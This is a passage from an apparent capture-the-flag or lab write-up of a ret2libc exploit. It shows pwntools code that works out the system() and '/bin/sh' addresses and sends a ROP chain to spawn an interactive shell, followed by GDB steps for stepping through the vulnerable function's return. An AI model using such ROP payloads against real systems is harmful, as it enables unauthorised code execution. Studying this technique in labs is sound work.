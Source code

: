 ```python
system_address = base_address_of_libc + system_offset
bin_sh_address = base_address_of_libc + bin_sh_offset
```

#### Final ROP chain to get shell

```python
second_payload = [
    junk,
    p64(pop_rdi),
    p64(bin_sh_address),      # First argument to system()
    p64(system_address),      # Call system("/bin/sh")
]

second_payload = b"".join(second_payload)
p.sendline(second_payload)
p.interactive()              # Get interactive shell
```
---

### 8. GDB debugging 

```python
p = process("./vuln")
gdb.attach(p)
```
so when we run the script it will open automatically the debugger.


1. **Disassemble the function**:

  ```bash
   disassemble do_stuff
   ```
   Take the **last `ret` instruction**. In this case, it’s at address `0x400770`. 


2. **Set a breakpoint at the return**:

  ```bash
   b *0x400770
   ```

3. **Run the program** and continue:

 ```bash
   c
   ```

4. **Step through instructions**:

  ```bash
   si
   ```
